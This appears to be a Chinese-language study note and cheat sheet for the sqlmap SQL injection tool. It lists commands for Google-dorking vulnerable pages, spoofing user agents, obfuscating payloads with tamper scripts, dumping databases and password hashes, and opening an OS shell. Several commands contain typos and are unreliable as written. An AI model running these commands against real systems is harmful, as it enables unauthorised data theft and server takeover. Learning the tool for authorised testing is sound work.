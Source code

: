 ```yaml
---
title: 18.sqlmap
description: sqlmap注入神器
published: 1
date: 2023-04-29T17:49:05.012Z
tags: web safe, sqlmap
editor: markdown
dateCreated: 2023-04-19T17:45:04.766Z
---
```


<center>Sqlmap</center>



[toc]







## sqlmap

> 开源渗透工具，自动检测和利用sql注入漏洞 [github](https://github.com/sqlmapproject/sqlmap)



### 1. 使用

> 参数: [usage](https://github.com/sqlmapproject/sqlmap/wiki/Usage)

> target

```shell
sqlmap -h

# url
sqlmpa -u url


# 有提示的
sqlmap --wizard 

# -m 文件   * 所参数
www.target1.com/vuln1.php?q=foobar
www.target2.com/vuln2.asp?id=1
www.target3.com/vuln3/id/1*

# -r 请求测试
POST /vuln.php HTTP/1.1
Host: www.target.com
User-Agent: Mozilla/4.0
id=1

# -g 谷歌
sqlmap -g "inurl:\".php?id=1\""
```



> request

```shell
# http方法和data  --method=  --data 重要
# 提交post
sqlmap -u "url" --method=post --date="id=1"

# --param-del 分隔符
sqlmap -u "url" --data="query=foobar;id=\
1" --param-del=";" -f --banner --dbs --users

# --cookie= 设置cookie

# --user-agent=  请求头：浏览器信息 重要
sqlmap -u "url" --user-agent="浏览器信息"

# --random-agent 随机 浏览器信息 重要
sqlmap -g "inurl:\".php?id=1\"" --random-agent

# --referer 网站的来源 重要
--referer=
# --headers= http头
# --proxy= 代理
```



> injection 注入

```shell
# --level 3 等级越高测试越多

```



> techniques 注入技术

```shell
```



> enumeration 枚举

```shell
# --users 列出注入用户

# --tables 表  

# --current-db 当前数据库 

# --passwords 密码

# --schema 系统库 --dump 数据dump出来
```



> 常用命令

```shell
# 常用
sqlmap -u url  
sqlmap -u url --tamper randomcase.py # 混淆代码  /usr/share/sqlmap/tamper 其他代码
sqlmap -u url --level 4 

# 权限
sqlmap -u url --privileges 
sqlmap -u url --is-dba #个人权限


# 查看库 表
--dbs/--current-db # 数据库
# 查看 某个库的表
sqlmap -u url -D database --table
# 查看表字段
sqlmap -u url -D database -T table --columns
# 内容
sql -u url -D datables -T table -C name --dump

# 查看用户
--user
# 密码
--passwords
# 系统表
--schema
# shell  实际上传木马
--os-shell
```



























